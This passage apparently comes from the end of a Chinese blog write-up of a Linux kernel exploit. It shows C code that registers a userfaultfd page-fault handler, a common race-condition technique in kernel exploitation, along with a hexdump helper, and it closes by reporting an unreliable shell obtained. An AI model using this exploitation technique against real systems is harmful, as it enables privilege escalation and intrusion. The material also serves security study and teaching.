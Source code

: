 ```c
    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        errExit("userfaultfd");

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl((int)uffd, UFFDIO_API, &uffdio_api) == -1)
        errExit("ioctl-UFFDIO_API");

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl((int)uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        errExit("ioctl-UFFDIO_REGISTER");

    s = pthread_create(&monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0)
        errExit("pthread_create");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
    printf("---------------------------------------------------------------------------\n");
    printf("Address info starting in %p:\n", buf);
    int index = 0;
    char output_buffer[80];
    memset(output_buffer, '\0', 80);
    memset(output_buffer, ' ', 0x10);
    for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
        char temp_buffer[0x10];
        memset(temp_buffer, '\0', 0x10);
        sprintf(temp_buffer, "%#5x", index);
        strcpy(output_buffer, temp_buffer);
        output_buffer[5] = ' ';
        output_buffer[6] = '|';
        output_buffer[7] = ' ';
        for(int j=0; j<16; j++){
            if(index+j >= length)
                sprintf(output_buffer+8+3*j, "   ");
            else{
                sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
                if(!isprint(buf[index+j]))
                    output_buffer[58+j] = '.';
                else
                    output_buffer[58+j] = buf[index+j];
            }
        }
        output_buffer[55] = ' ';
        output_buffer[56] = '|';
        output_buffer[57] = ' ';
        printf("%s\n", output_buffer);
        memset(output_buffer+58, '\0', 16);
        index += 16;
    }
    printf("---------------------------------------------------------------------------\n");
}
```

![](https://img-blog.csdnimg.cn/6f49503c2c4f4ec5a635efb4038e09da.png)

成功getshell（有较高的失败率，需要多次尝试）
